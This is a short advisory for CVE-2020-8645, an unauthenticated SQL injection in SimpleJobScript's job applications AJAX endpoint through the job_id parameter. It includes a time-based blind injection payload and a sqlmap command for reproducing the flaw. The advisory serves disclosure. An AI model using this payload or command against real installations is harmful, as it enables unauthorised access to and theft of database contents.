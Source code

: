 ```yaml
---
cve: "CVE-2020-8645"
title: "Unauthenticated SQL injection in SimpleJobScript"
date: 2020-02-05
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8645
- public announcement: https://github.com/niteosoft/simplejobscript/issues/9

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS through 1.66. There is an unauthenticated SQL injection via the job applications search function. The vulnerable parameter is `job_id`. The function is `getJobApplicationsByJobId()`. The file is `_lib/class.JobApplication.php`.

**Details:**  
File: `/_lib/class.JobApplication.php`  
Function: `getJobApplicationsByJobId()`  
URL: `/get_job_applications_ajax.php`  
Parameter: `job_id`  

**Payload:**  
```
POST /get_job_applications_ajax.php
job_id=493+AND+(SELECT+9069+FROM+(SELECT(SLEEP(5)))Ufmy)
```

**Steps to Reproduce:**  
```
$ sqlmap --batch --threads=10 --dbms=mysql -u "http://local.simplejobscript.net/get_job_applications_ajax.php" --data="job_id=493" --banner
```

**PoC:**  
![cve-2020-8645 SimpleJobScript sqli](/images/cve-2020-8645.png)

